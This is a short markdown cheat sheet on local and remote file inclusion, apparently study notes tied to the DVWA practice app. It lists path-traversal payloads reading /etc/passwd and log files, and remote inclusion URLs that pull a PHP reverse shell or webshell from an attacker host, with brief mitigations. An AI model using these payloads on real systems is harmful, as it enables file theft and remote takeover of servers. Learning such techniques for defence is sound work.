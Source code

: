 # File Inclusion

## Local
- Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
